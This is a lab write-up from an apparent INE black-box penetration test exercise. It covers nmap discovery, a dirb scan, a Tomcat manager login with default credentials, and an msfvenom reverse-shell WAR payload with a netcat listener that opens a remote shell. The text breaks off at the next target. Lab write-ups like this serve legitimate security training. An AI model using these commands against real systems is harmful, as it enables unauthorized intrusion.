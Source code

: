 #Rachel Murphy
#INE-8/20/21
#Black Box Pen Test 1

#Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

#Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

#What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

#Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
